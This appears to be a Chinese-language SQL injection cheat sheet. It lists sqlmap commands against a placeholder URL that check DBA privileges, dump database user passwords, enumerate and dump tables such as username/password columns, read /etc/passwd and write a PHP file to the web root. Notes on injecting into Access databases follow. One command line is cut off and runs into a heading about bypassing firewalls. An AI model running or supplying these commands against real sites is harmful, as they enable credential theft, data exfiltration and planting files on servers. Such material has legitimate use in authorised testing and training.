 ```sql
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```





# 2、Access注入

Access数据库的组成（相比于MySQL等数据库，Access数据库没有数据库这一层，相当于每个网站的数据库都是独立的，没有跨库注入，只能暴力破解）：

```
Access数据库：
	表名：
		列名：
			数据：
			
MySQL数据库：
	数据库名：
		表名：
			列名:
				数据：
```

access 数据库都是存放在网站目录下，后缀格式为 mdb，accdb等可以通过一些暴库手段、目录猜解等直接下载数据库，



```
access无法使用： union select 1,2,3,4格式，

必须指定要从哪个表中查询，例如：union select 1,2,3 from user
```

**access三大攻击手法**

```bash
1.access注入攻击片段-联合查询法
2.access注入攻击片段-逐字猜解法
3.工具类的使用注入（推荐）
```
